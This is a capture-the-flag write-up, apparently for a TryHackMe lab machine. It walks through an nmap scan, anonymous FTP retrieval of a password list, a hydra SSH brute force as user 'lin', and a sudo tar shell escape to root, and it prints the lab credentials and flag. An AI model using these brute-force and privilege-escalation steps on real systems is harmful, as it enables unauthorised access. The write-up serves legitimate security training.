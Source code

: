 machine ip `10.10.71.74`

### nmap

```sh
sudo nmap -sS -sC -v 10.10.71.74
	Discovered open port 80/tcp on 10.10.71.74
	Discovered open port 22/tcp on 10.10.71.74
	Discovered open port 21/tcp on 10.10.71.74
```

### Http_port 80

`http://10.10.71.74/`

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.71.74
```

### ftp

from the `nmap` scan
```

		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
		|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```sh
get locks.txt 
get task.txt
```

**The files**
- `locks.txt` is a word-list with passwords
- `task.txt` is a file created by `lin` *who i guess is a user*

### hydra
We use hydra to brute force the ssh
```sh
hydra -l lin -P locks.txt 10.10.71.74 ssh
```

Port 22 (ssh) 
host: 10.10.71.74
login: `lin`
password: `RedDr4gonSynd1cat3`

### ssh
```sh
ssh lin@10.10.7174
```
 	
```sh
sudo -l
/usr/lib
```

- Shell(syntax)
It can be used to break out from restricted environments by spawning an interactive system shell.

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
- Command 
```sh
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```sh
find / -name "root.txt" 2>/dev/null
cat root.txt
	#THM{80UN7Y_h4cK3r}
```
